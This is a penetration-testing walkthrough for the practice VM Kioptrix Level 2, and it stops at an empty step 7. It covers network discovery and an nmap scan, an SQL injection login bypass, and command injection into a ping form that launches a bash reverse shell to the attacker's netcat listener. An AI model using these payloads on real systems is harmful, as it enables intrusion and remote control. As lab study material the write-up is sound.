

# Summary
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 2.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 2 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.250`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.250

Ports found open: 22, 80, 111, 443, 3306

**Step 3:**
Visit `http://192.168.1.250/index.php` on the browser. We come across this login page.

We try the `admin:admin` combination for the `username:password` and it doesn't work.
Attempting a SQL Injection, we set the username as `admin' or '1'='1` and see if it works.
We are through, to the next page

**Step 4:**
The next page looks like this.

The source code for this page says that it is a  `pingit` feature, where the machine IP mentioned in the input field would be pinged and the browser would receive a response.

We enter `localhost` as the input and we receive the following response.

**Step 5:**
Next step is to spawn a reverse shell to acquire prolonged shell access to the target machine. We can concatenate shell commands one after another to achieve this. Visit `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` to find the one-liner reverse shell command.

The command is `bash -i >& /dev/tcp/<attacker's IP>/<attacker's Port> 0>&1`

**Step 6:**
On the local machine, we use netcat to listen to port 443
> nc -lvp 443

Also, in the input field we write `localhost; bash -i >& /dev/tcp/192.168.1.200/443 0>&1`, and hit Enter.

We have acquired SHELL Access!!

**Step 7:**

